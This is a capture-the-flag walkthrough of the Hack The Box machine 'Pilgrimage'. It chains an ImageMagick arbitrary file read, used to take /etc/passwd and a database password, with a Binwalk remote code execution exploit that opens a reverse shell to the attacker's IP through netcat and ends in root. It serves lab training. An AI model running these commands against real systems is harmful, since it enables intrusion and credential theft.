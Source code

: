# Pilgrimage
Linux . Easy

## Enumeration

### Initial Nmap Scan
Our first step in probing the web application was an initial Nmap scan using the following command:

`nmap -sCV -p- {machine IP}`

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2cd104de-7e65-4a71-be92-adf4ce9070a3)

This comprehensive scan returned a domain name for our target IP, which was subsequently added to the /etc/hosts file to enhance readability in further exploration.

### Exploring the Web Application

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d73cbfb6-51d4-4833-9479-c12ae02791cd)

Following the initial scan, we began investigating the web application's features. This exploration revealed:

- A registration page, which automatically logs in new users
- A manual login page
- A home page featuring an image shrinking tool which allows users to upload images, subsequently displaying the resized image.

Once logged in, we were directed to a 'Dashboard' page. This interface displayed the original image file name and a link to the shrunken image, which had been assigned a new name by the application.

### Detailed Nmap Scan

To gain further insight into the underlying infrastructure, a second, more comprehensive Nmap scan was conducted. This scan revealed a hidden .git directory, which offered a potential opportunity for further investigation.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/b011b319-f938-49ca-80cf-a12745a792ee)

### Extracting Hidden Git Directory

In order to extract the contents of the hidden .git directory, we employed the git-dumper tool. This allowed us to gain access to the web application's source code, providing valuable information about the application's structure and functionality.

The source code comprised several different files for login, logout, register, and dashboard functionality, as well as an ELF 64-bit LSB executable called 'magick'. This command-line program is used to resize the images uploaded by users.

[git-dumper](https://github.com/arthaud/git-dumper)

![image](https://github.com/vsang181/Hackthebox/assets/28651683/4a63b9d3-ba32-49bd-8a7a-d962fe9e8a5d)

### Source Code Analysis

Detailed scrutiny of the index.php file revealed a PHP script that facilitates image uploads, resizing, and storage. The script initializes a session, imports a package named "bulletproof" to handle image uploads, checks user authentication, processes image uploads, and renders HTML for the webpage.

We also discovered a SQLite database path mentioned within the dashboard.php file.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/088a4f37-3dfd-496f-99a6-4bfed8d7b1a5)

### Investigating ImageMagick

In order to learn more about the potential vulnerabilities of the 'magick' tool, we downloaded it to our local system and checked the version.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/6b293647-bf5d-4a7d-9fcf-b36fff6fb32e)

Following a quick Google search, we discovered an Arbitrary File Read vulnerability in this version of ImageMagick. The provided Proof-of-Concept (POC) indicated that this vulnerability could be exploited for further investigations.

[ImageMagick 7.1.0-49 - Arbitrary File Read](https://www.exploit-db.com/exploits/51261)

[ imagemagick-lfi-poc](https://github.com/Sybil-Scan/imagemagick-lfi-poc)

## Exploitation

Taking advantage of the vulnerability we discovered, we first generated a blank .png file designed to read the "/etc/passwd" file. This was achieved using the following command:

`python3 generate.py -f "/etc/passwd" -o exploit.png`

This malicious .png file was then uploaded to the web application and the shrunken image resulting from the server's processing was saved locally for further analysis.

To extract the hexadecimal content embedded in the manipulated image, we utilized the command-line tool 'identify' with the following command:

`identify -verbose {filename.png}`

This yielded the target hexadecimal code.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/c3f759a8-d888-440f-b2d0-c93afa4730de)

The hexadecimal code was then converted into a string format using the following Python command:

`python3 -c 'print(bytes.fromhex("{Hex Code}").decode("utf-8"))'`

The decoded string revealed the presence of a user named Emily in the system.

Leveraging the Local File Inclusion vulnerability we had previously established, we proceeded to download the database.

The target file was changed from "/etc/passwd" to "/var/db/pilgrimage" within the original exploit command.

This action resulted in a large data dump, which was subsequently analyzed using an online tool for convenience.

[CyberChef](https://gchq.github.io/CyberChef/)

The analysis of this data revealed Emily's password.

![Screenshot_2023-07-26_21-34-34](https://github.com/vsang181/Hackthebox/assets/28651683/55500606-123e-475b-b6af-70819061ca42)

We then attempted an SSH login using Emily's credentials. The login attempt proved successful.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/5bfd9db7-82e7-4268-bc88-2e88589d5805)

Finally, this successful login revealed the desired user flag, marking the completion of our exploration and exploitation journey.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2cea703a-9865-4802-a843-d70ba17d636d)

## Privilege Escalation

An initial attempt to run 'sudo -l' to list Emily's sudo privileges was unsuccessful.

By running the linpeas.sh script, we discovered a process located at /usr/sbin/malwarescan.sh. As user Emily, we have read permissions for this process.

The content of the script revealed the following details:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d0188909-07c1-4fc7-9dc9-6e6cd3c3d177)

The bash script was designed to monitor a specific directory (/var/www/pilgrimage.htb/shrunk/) for the creation of new files, employing the 'inotifywait' command for this purpose.

The script has a blacklist, an array of string patterns ("`Executable script`" and "`Microsoft executable`"). If the output of the `binwalk` command (stored in the `binout` variable) contains any of the blacklisted string patterns, the script removes the file.

A check on the 'binwalk' version revealed it to be Binwalk v2.3.2.

A quick Google search for known exploits against this version of binwalk unveiled a Remote Command Execution (RCE) vulnerability.

[Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

With this identified vulnerability, we had the potential to remotely execute code as root within the system.

The exploit code was saved into a file, named, for instance, 'exploit.py'.

The exploit was launched using the following command:

`python3 exploit.py /path/to/input.png your.ip.address.here 4444`

This operation created a png file ready to be uploaded and subsequently executed by 'binwalk', as identified earlier in the 'malwarescan.sh' script.

Concurrently, we started listening on the specified port via 'netcat'.

An HTTP server was then started, and while still in SSH, the 'wget' command was used to retrieve the file into the specified folder.

This process ultimately resulted in gaining a root shell, enabling access to the coveted root flag.
